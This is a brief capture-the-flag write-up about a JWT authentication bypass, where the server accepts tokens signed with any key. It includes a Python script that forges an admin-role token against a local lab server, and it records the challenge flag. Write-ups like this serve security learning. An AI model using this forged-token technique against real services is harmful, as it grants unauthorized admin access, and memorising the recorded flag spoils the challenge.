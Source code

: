 ```yaml
---
ai_date: 2025-04-27 05:26:18
ai_summary: JWT signing bypass due to lack of validation
ai_tags:
  - jwt
  - bypass
  - auth
created: 2025-03-01T20:43
points: 100
solves: 20
updated: 2025-07-14T09:46
---
```


I thought this was a JWT cracking challenge, but turns out I can just sign it with whatever and it will work. The pasted JWT is from jwt.io with `"role": "admin"`.

```python
import requests
s = requests.Session()
s.post("http://127.0.0.1:53080/signup", json={"username": "www", "password": "www"})
res = s.post("http://127.0.0.1:53080/login", json={"username": "www", "password": "www"}).json()
print(s.get("http://127.0.0.1:53080/admin", headers={"Authorization": "Bearer " +
      "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ind3dyIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTc0MDg3OTY1MiwiZXhwIjoxNzQwODgzMjUyfQ.OQyUrtYW33oG9pUdSRh1_Feps9OI1_ZnJ6qVtmbzgu8"}).text)
```

```flag
ATHACKCTF{trust_is_a_vulnerability}
```